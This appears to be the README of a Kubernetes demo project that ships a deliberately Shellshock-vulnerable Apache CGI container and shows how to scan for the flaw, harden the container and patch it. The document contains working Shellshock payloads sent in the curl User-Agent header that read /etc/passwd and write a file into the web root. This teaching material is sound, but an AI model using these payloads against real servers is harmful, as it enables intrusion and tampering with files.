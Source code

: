 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

This demo uses three different versions

* shellshockable:0.1.0 - runs as root and includes shellshock vulnerability
* shellshockable:0.2.0 - runs as non-root but still has the vulnerability
* shellshockable:0.3.0 - runs as non-root, without shellshock vulnerability

### Build and push to Docker Hub

Skip this step if you want to use my version of the images already pushed to Docker Hub.

```sh
make push
```

**TODO: environment variable for Docker Hub account / registry so it doesn't have to use lizrice (needs changes to makefile and Helm chart)

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

Note: the Dockerfile installs the vulnerable package. A vulnerability scanner wouldn't find the vulnerability if you build the vulnerable version of bash from source.

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

### Port-forwarding

```sh
# Run this in the background or in another terminal window
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

** TODO: use an ingress so you don't have to re-do the port forwarding every time
** TODO: could also set up a fake domain in /etc/hosts on the host to pretend that this is on a "real" web site

### Regular query

```sh
curl localhost:8081/cgi-bin/shockme.cgi
```

** TODO: consider renaming shockme.cgi so it's more "normal"

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

You can put the user agent string into a variable to make this easier to type live

```sh
export SHOCK="() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd"
curl -A $SHOCK localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Test bash for Shellshock vulnerability

Get into the vulnerable container:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that its version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

You'll see the word "vulnerable" only if shellshock is present.

## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```sh
kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard polaris
```

Run `octant` to view them there. You should see vulnerabilities (including HIGH severity shellshock) and config issues from Polaris (including failing the runAsNonRoot test).

## Run as non-root

```sh
helm upgrade -f security-context.yaml shell-chart shellshockable --set image.tag=0.2.0
```

This container uses a high numbered port so it can run as nonRoot

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run polaris and check the test for runAsNonRoot is now passing.

** Note: This config doesn't set readOnlyRootFileSystem, because Apache wants to write files.

## Upgrade to non-vulnerable version

```sh
helm upgrade shell-chart shellshockable --set image.tag=0.3.0
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run find vulnerabilities and check this is no longer an issue
